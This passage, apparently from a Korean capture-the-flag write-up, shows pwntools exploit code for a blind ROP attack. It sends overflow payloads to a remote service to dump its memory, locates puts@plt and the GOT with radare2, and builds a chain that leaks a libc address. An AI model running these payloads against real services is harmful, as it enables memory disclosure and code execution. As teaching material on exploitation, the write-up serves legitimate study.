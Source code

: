 ```python
        payload += p64(puts_plt)
        payload += p64(stop_gadget)

        r = remote(ip,port,level='error')
        r.recvline()
        r.sendline(payload)
        data = r.recv(timeout=0.5)
        r.close()
        try:
            data = data[:data.index('nWelCome')]
        except ValueError as e:
            data = data

        if len(data)==0:
            data='x00'
        dump += data
        now += len(data)

    with open('memory.dump','wb') as f:
        f.write(dump)

    p.success('Done')
```

radare2로 분석 시 puts의 plt 주소(0x400560) 및 got 주소(0x400566 + 0x200ab2)를 알 수 있다.

```
root@bs-virtual-machine:~/pwnable# r2 -B 0x400000 memory.dump 
Warning: read (shdr) at 0x1b30
Warning: Cannot initialize section headers
Warning: Cannot initialize strings table
[0x004005c0]> pd 10 @ 0x400555
            0x00400555    00ff         add bh, bh
            0x00400557    25b40a2000   and eax, 0x200ab4
            0x0040055c    0f1f4000     nop [rax]
            0x00400560    ff25b20a2000 jmp qword [rip+0x200ab2]
            0x00400566    6800000000   push 0x0
            0x0040056b    e9e0ffffff   jmp 0x400550
            0x00400570    ff25aa0a2000 jmp qword [rip+0x200aaa]
            0x00400576    6801000000   push 0x1 ; 0x00000001 
            0x0040057b    e9d0ffffff   jmp 0x400550
            0x00400580    ff25a20a2000 jmp qword [rip+0x200aa2]
```

#### **Leak Address**

puts@got 영역에 저장된 libc address를 추출할 수 있다.

```python
def leak_libc(r,size,stop_gadget,rdi_ret,puts_plt,puts_got):
    payload = ''
    payload += "A"*size
    payload += p64(rdi_ret)
    payload += p64(puts_got)
    payload += p64(puts_plt)
    payload += p64(stop_gadget)

    r.recvline()
    r.sendline(payload)
    leak_addr = r.recvuntil('nWelCome my friend,Do you know password?n',drop=True)
    leak_addr = u64(leak_addr.ljust(8,'x00'))
    return leak_addr
```
